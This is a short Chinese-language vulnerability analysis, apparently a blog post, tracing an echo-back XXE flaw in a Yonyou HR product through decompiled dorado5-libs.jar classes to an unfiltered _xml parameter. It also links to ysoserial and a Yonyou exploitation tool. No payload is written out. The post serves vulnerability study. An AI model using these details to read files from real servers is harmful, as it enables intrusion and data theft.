  
因为该漏洞黑盒测试就很好挖到，就简单调试看一下源码学习一下。  
先根据路径信息，在hrss目录下的web.xml获得相关的服务信息。利用完整的类路径找它的jar。  
  
找到dorado5-libs.jar进行反编译，并通过查找关键字，对关键位置下断点进行远程调试。  
最终找到在BaseRPCHandler类初始化方法中调用了父类的初始化方法。  
  
它的父类AbstractRPCHandler初始化时又调用了Dom4jXmlBuilder的buildDocument方法对\_xml中传进行来的xml代码进行解析，并未进行任何过滤。而Dom4jXmlBuilder中使用了DocumentBuilder类是JDK自带的类，在该类解析时会读取外部实体内容，因此产生的XXE漏洞是有回显的。  
  
最终，获得从外部实体引入的文件内容，并从返回包中回返。  


参考文章及相关工具  
[servlet（http接口）开发](https://blog.csdn.net/guaizang/article/details/105520915)  
[SRC挖洞之SSRF与XXE漏洞的实战案例](https://blog.csdn.net/weixin_39190897/article/details/117426009)  
[ysoserial](https://github.com/frohoff/ysoserial)  
[fupo](https://github.com/novysodope/fupo_for_yonyou)
